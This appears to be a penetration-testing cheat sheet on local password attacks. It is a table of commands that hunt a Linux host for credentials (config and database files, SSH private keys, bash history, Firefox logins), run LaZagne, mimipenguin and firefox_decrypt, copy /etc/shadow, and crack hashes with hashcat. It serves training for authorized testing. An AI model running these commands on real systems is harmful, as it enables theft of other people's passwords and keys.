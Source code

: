 | | |
| `./username-anarchy -i /home/ltnbob/names.txt` | Creating a Custom list of Usernames |
| `start lazagne.exe all` | We can also take advantage of third-party tools like [Lazagne](https://github.com/AlessandroZ/LaZagne/releases/) to quickly discover credentials that web browsers or other installed applications may insecurely store. -CMD |

## Linux Local Password Attacks

| **Command**| **Description**|
|-|-|
| `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done` | Script that can be used to find .conf, .config and .cnf files on a Linux system. |
| `for i in $(find / -name *.cnf 2>/dev/null \| grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null \| grep -v "\#";done` | Script that can be used to find credentials in specified file types. |
| `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share\|man";done` | Script that can be used to find common database files.       |
| `find /home/* -type f -name "*.txt" -o ! -name "*.*"`        | Uses Linux-based find command to search for text files.      |
| `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null \| grep -v "doc\|lib\|headers\|share";done` | Script that can be used to search for common file types used with scripts. |
| `for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null \| grep -v "lib\|fonts\|share\|core" ;done` | Script used to look for common types of documents.           |
| `cat /etc/crontab`                                           | Uses Linux-based cat command to view the contents of crontab in search for credentials. |
| `ls -la /etc/cron.*/`                                        | Uses Linux-based  ls -la command to list all files that start with `cron` contained in the etc directory. |
| `grep -rnw "PRIVATE KEY" /* 2>/dev/null \| grep ":1"`        | Uses Linux-based command grep to search the file system for key terms `PRIVATE KEY` to discover SSH keys. |
| `grep -rnw "PRIVATE KEY" /home/* 2>/dev/null \| grep ":1"`    | Uses Linux-based grep command to search for the keywords `PRIVATE KEY` within files contained in a user's home directory. |
| `grep -rnw "ssh-rsa" /home/* 2>/dev/null \| grep ":1"`        | Uses Linux-based grep command to search for keywords `ssh-rsa` within files contained in a user's home directory. |
| `tail -n5 /home/*/.bash*`                                   | Uses Linux-based tail command to search the through bash history files and output the last 5 lines. |
| `python3 mimipenguin.py`                                     | Runs Mimipenguin.py using python3.                           |
| `bash mimipenguin.sh`                                       | Runs Mimipenguin.sh using bash.                              |
| `python2.7 lazagne.py all`                                   | Runs Lazagne.py with all modules using python2.7             |
| `ls -l .mozilla/firefox/ \| grep default `                    | Uses Linux-based command to search for credentials stored by Firefox then searches for the keyword `default` using grep. |
| `cat .mozilla/firefox/1bplpd86.default-release/logins.json \| jq .` | Uses Linux-based command cat to search for credentials stored by Firefox in JSON. |
| `python3.9 firefox_decrypt.py`                               | Runs Firefox_decrypt.py to decrypt any encrypted credentials stored by Firefox. Program will run using python3.9. |
| `python3 lazagne.py browsers`                                | Runs Lazagne.py browsers module using Python 3. |
| | |
| **Passwd, Shadow & Opasswd** | |
| Cracking Linux Credentials | Once we have collected some hashes, we can try to crack them in different ways to get the passwords in cleartext. |
| `sudo cp /etc/passwd /tmp/passwd.bak` | Moving the passwd file |
| `sudo cp /etc/shadow /tmp/shadow.bak` | Moving the shadow file |
| `unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes` | Unshadow |
| `hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked` | Hashcat - Cracking Unshadowed Hashes |
| `hashcat -m 500 -a 0 md5-hashes.list rockyou.txt` | Hashcat - Cracking MD5 Hashes |

